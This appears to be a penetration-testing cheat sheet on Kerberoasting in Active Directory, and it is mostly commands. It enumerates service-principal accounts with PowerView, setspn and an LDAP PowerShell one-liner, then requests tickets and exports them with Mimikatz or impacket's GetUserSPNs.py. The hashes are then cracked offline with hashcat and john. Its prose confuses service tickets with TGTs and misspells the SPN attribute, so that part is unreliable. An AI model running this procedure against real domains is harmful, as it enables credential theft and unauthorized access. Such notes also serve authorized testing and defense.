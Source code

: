 # Kerberoast

Send a request to a TGT for a Kerberos token, dump it from memory, crack it locally to obtain access to the target. The TGT can also be used to forge a Silver Ticket and gain access to the service machine. Vulnerable accounts need to have the flag `serverPrincipalName` set.

## Exploit

### Windows machine

Vulnerable users in domain

```
Get-NetUser -SPN | select serviceprincipalname    //Powerview
setspn -T <domain> -Q */*                         //Builtin
```

Enumerate with LDAP Powershell module

```
$ldapFilter="(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))";$domain=New-Object System.DirectoryServices.DirectoryEntry;$search=New-Object System.DirectoryServices.DirectorySearcher;$search.SearchRoot=$domain;$search.PageSize=1000;$search.Filter=$ldapFilter;$search.SearchScope="Subtree";$results=$search.FindAll()$Results=foreach($result in $results){$result_entry=$result.GetDirectoryEntry();$result_entry|Select-Object @{Name="Username";Expression={$_.sAMAccountName}},@{Name="SPN";Expression={$_.servicePrincipalName|Select-Object -First 1}}}$Results;
```

Enumerate past remote sessions on local machine

```
klist
```

Request a Service Ticket from the target. The ticket will be stored in memory

```
Add-Type -AssemblyName System.IdentityModel;New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

Dump the SPN ticket using Mimikatz

```
privilege::debug
token::elevate
kerberos::list /export
```

### \*nix machine

Enumerate vulnerable accounts. Requires a valid user and password

```
GetUserSPNs.py <domain>/<user>:<pass>            #check user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user>    #query the DC
```

Dump TGT

```
GetUserSPNs.py <domain>/<user>:<pass> -dc-ip <DC IP> -request  #dump TGTs of current user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user> -request-user <target user> #dump TGTs of target user
```

## Crack hash

Crack the .kirbi file or hash received from impacket

```
hashcat -m 13100 --force <hashfile> <wordlist>
john --format=krb5tgs --wordlist=<wordlist> <hashfile>    #requires jumbo version
```
